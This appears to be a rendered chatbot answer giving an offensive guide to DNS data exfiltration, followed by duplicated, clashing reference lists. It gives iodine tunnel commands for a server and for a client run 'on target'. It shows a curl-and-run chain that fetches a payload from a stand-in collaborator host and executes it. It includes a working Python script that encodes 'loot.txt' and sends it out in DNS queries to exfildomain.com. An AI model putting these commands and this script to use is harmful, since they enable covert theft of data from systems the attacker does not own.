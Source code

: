 **Tip:** If you’d like a ready-to-deploy server/client pair, check out projects like **`python-dns-exfiltration-client-server`** ([github.com][1], [github.com][2]) or **`dnsExfil`** .

---

## 2️⃣ Iodine-Based DNS Tunnel (Full 2-Way Comms)

**Setup:**

1. **Server side** (on your VPS/lab machine):

   ```bash
   sudo apt install iodine
   sudo iodined -f -c -P mypass 10.1.1.1/24 tunnel.mydomain.com
   ```

2. **Client side** (on target):

   ```bash
   sudo apt install iodine
   sudo iodine -P mypass tunnel.mydomain.com
   ```

Once connected, you’ll get a `dns0` or `tap0` interface allowing outbound/inbound IP traffic over DNS. Ideal for shell or web traffic tunneling ([danger-team.org][3], [exfil.tymyrddin.dev][4]).

---

## 3️⃣ Burp Collaborator Integration

While Collaborator doesn't natively support DNS exfil, you can:

1. Use Collaborator to host a **web payload** that instructs the target to download your Python exfil tool.
2. Then let your Python client execute the DNS exfil over your custom domain.
   Example:

```python
os.system("curl http://YOUR-COLLAB_SERVER/payload.py -o /tmp/payload.py")
os.system("python3 /tmp/payload.py")
```

This gives you HTTP interaction logs and DNS exfil in one chain.

---

## 4️⃣ Pre-Built HTTP ➝ DNS Payload

Here’s a **simple loader script** you can deploy via `http.server`:

```bash
python3 -m http.server 8000
```

Host this as `payload.py`:

```python
import base64, dns.resolver, time, sys

def exfil(fname, domain):
    data = open(fname,'rb').read()
    enc = base64.b32encode(data).decode()
    chunks = [enc[i:i+50] for i in range(0,len(enc),50)]
    for idx, ch in enumerate(chunks):
        q = f"{sys.argv[1]}.{idx}.{ch}.{domain}"
        dns.resolver.resolve(q, 'A')
        time.sleep(0.3)

if __name__=='__main__':
    exfil("loot.txt", "exfildomain.com")
```

[1]: https://github.com/PaulKoumedzro/iodine-DNS-tunneling?utm_source=chatgpt.com "GitHub - PaulKoumedzro/iodine-DNS-tunneling: Official git repo for iodine dns tunnel"
[2]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[3]: https://danger-team.org/the-ultimate-dns-tunneling-guide-from-zero-to-hero/?utm_source=chatgpt.com "The Ultimate DNS Tunneling Guide: From Zero to Hero"
[4]: https://exfil.tymyrddin.dev/docs/thm/dns-tunnel?utm_source=chatgpt.com "DNS tunneling — Gathering edibles"
[5]: https://medium.com/%400xHossam/evading-detection-and-stealthy-data-exfiltration-with-dns-over-https-doh-ee134b5766d4?utm_source=chatgpt.com "Evading Detection and Stealthy Data Exfiltration with DNS over HTTPS (DoH) | by Hossam Ehab | Medium"
[6]: https://www.reddit.com/r/hacking/comments/mhzsz0?utm_source=chatgpt.com "Exfiltrate files using the DNS"
[7]: https://medium.com/learning-cybersecurity/http-dns-encrypted-data-exfiltration-techniques-77d6fee6c749?utm_source=chatgpt.com "HTTP/DNS/Encrypted data exfiltration techniques | by Angel Mercado | Learning CyberSecurity | Medium"
[1]: https://github.com/bufo333/python-dns-exfiltration-client-server?utm_source=chatgpt.com "GitHub - bufo333/python-dns-exfiltration-client-server: A DNS exfiltration client and server written in python"
[2]: https://nhairs.github.io/dnslib/latest/reference/dnslib/?utm_source=chatgpt.com "Index - Dnslib"
[3]: https://nhairs.github.io/dnslib/latest/?utm_source=chatgpt.com "Dnslib"
[4]: https://github.com/stamparm/python-doh?utm_source=chatgpt.com "GitHub - stamparm/python-doh: Python client for DNS over HTTPS (DoH) protocol"
[5]: https://en.wikipedia.org/wiki/DNS_over_HTTPS?utm_source=chatgpt.com "DNS over HTTPS"
[6]: https://medium.com/%40Oscar404/dns-tunneling-attack-d2b610150a45?utm_source=chatgpt.com "DNS Tunneling attack. Introduction to DNS Tunneling | by Oscar404 | Medium"
[7]: https://www.reddit.com/r/masterhacker/comments/n5g46a?utm_source=chatgpt.com "So... I guess they were right all along?"